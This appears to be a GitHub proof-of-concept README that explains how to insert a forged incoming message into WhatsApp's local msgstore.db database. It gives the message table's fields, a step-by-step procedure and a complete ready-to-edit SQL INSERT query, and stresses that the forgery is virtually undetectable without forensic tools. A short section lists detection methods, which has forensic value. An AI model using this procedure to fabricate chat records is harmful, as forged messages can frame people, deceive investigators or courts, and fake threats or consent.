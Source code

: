 
# 💬 WHATSAPP MESSAGE INJECTION PROOF OF CONCEPT 💬

## 📂 Target
WhatsApp msgstore.db (SQLite)

## 🎯 Goal
Add a fabricated incoming message to any conversation this message is never actually sent, yet it will appear entirely authentic in the interface.

WhatsApp retains all messages on the device within the `msgstore.db` file. If you understand the format of the message table, you can insert a specifically crafted entry that makes WhatsApp perceive it as a valid message from the other participant.

## 📜 Database Fundamentals

`msgstore.db` → a local SQLite database consisting of various tables. The table of interest is: `message`.

Each row corresponds to a single message. Key fields include:
- **_id**                → Unique primary identifier (auto-incremented)
- **chat_row_id**        → The conversation associated with this message
- **from_me**            → 1 = sent from the device, 0 = received
- **key_id**             → Unique identifier for the message
- **timestamp**          → Time when sent (in Unix milliseconds)
- **received_timestamp** → Time when received
- **text_data**          → Content of the message
- **status**             → Delivery/read status (e.g., 13 = seen)
- **sort_id**            → Order of display in the chat

## ⚠️ Why Increment _id?
- The _id must be unique and greater than the last message's identifier.
- If the last _id is 532, the new one should be 533.
- The sort_id should align with the _id to ensure the correct order in the chat.

## 🛠 Complete Procedure

1. **Choose a genuine message** from the message table take note of its `chat_row_id`, `timestamp`, and `received_timestamp`.
2. **Draft an INSERT query** with:
   - `_id = last_id + 1`
   - Same `chat_row_id`
   - `from_me = 0` (indicate as received)
   - A realistic `key_id` (random hexadecimal string)
   - Adjusted timestamps
   - Custom `text_data` content
3. **Inject using sqlite3** or a database editor (with WhatsApp closed).
4. **Reopen WhatsApp** — the message will appear as if it has always been present.

## 💻 Query
```sql
INSERT INTO message (
    _id,
    chat_row_id,
    from_me,
    key_id,
    sender_jid_row_id,
    status,
    broadcast,
    recipient_count,
    participant_hash,
    origination_flags,
    origin,
    timestamp,
    received_timestamp,
    receipt_server_timestamp,
    message_type,
    text_data,
    starred,
    lookup_tables,
    message_add_on_flags,
    view_mode,
    sort_id,
    translated_text
) VALUES (
    533,  -- new_id value
    13,   -- chat_row_id
    0,    -- from_me
    'D83EE8287E7C2127C861AF61271BD5CD',
    0,    -- sender ID
    13,   -- status (13 = seen)
    0,
    0,
    0,    -- must be NULL/0 except for group messages
    0,
    0,
    1753651090000,
    1753651090677,
    1,
    0,
    'this is a test message',
    0,
    0,
    0,
    0,
    533,
    NULL
);
```

## 💡 Explanation of Functionality
WhatsApp does not verify the integrity of local messages there is no signature or checksum. When loading chats, it accepts whatever is present in `msgstore.db`.

## 🕵️ Potential Detection Methods
- Matching `key_id` values with `.crypt14` backups
- Identifying gaps or irregularities in timestamps
- Comparing with server backups

However, for typical device inspections, it remains virtually undetectable without forensic analysis tools.
